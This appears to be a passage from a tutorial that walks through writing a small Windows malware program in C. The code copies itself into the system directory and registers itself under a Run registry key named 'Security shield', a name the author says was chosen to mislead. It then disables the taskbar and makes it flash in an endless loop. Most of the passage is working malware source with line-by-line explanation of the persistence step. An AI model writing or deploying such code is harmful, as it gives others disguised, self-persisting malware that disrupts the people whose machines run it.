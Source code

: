 
```
HKEY hKey;

RegOpenKeyExA(HKEY_LOCAL_MACHINE,"Software\\Microsoft\\Windows\\CurrentVersion\\Run",0,KEY_SET_VALUE,&hKey );

RegSetValueExA(hKey, "Security shield",0,REG_SZ,(const unsigned char*)system,sizeof(system));

RegCloseKey(hKey);

```


<b>HKEY hKey</b> is the buffer that holds the data for calls to the registry.
First, we open the key <b>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run</b>, which is the key for starting up for all users, which is what we want. 0 is reserved, so better to keep it 0. Next, we used <b>KEY_SET_VALUE</b> to open it with permissions then we put our buffer.
The <b>RegSetValueExA</b> which takes our buffer , the message will appears on the key I chose security shield for misleading , 0 is also reserved, <b>REG_SZ</b> is the type we wanna for the register  [Registery types](https://docs.microsoft.com/en-us/windows/win32/sysinfo/registry-value-types), <b>(const unsigned char*) system</b>, well <b>system</b> is the buffer holds system directory and <b>const unsigned char</b> to format the string to unsigned char because this section doesnt accept normal characters and finally string size. </br>
Finally, we closed the registry.

Now let's add our annoying part.

```
#include <windows.h>

int WINAPI WinMain (HINSTANCE hThisInstance, HINSTANCE PrevInstance,
                            LPSTR lpszArgument, int nFunsterStil)

{
 char system[MAX_PATH];
char pathtofile[MAX_PATH];
HMODULE GetModH = GetModuleHandleA(NULL);

GetModuleFileNameA(GetModH,pathtofile,sizeof(pathtofile));
GetSystemDirectoryA(system,sizeof(system));

strcat(system,"\\annoyingMalware.exe");

CopyFile(pathtofile,system,false);

HKEY hKey;

RegOpenKeyExA(HKEY_LOCAL_MACHINE,"Software\\Microsoft\\Windows\\CurrentVersion\\Run",0,KEY_SET_VALUE,&hKey );

RegSetValueExA(hKey, "Security shield",0,REG_SZ,(const unsigned char*)system,sizeof(system));

RegCloseKey(hKey);
HWND hWin;

hWin = FindWindow("Shell_TrayWnd",NULL); // get handle window of taskbar
EnableWindow(hWin,false);

while(1==1)
{
ShowWindow(hWin,false);
Sleep(1000);
ShowWindow(hWin,true);
Sleep(1000);
}
```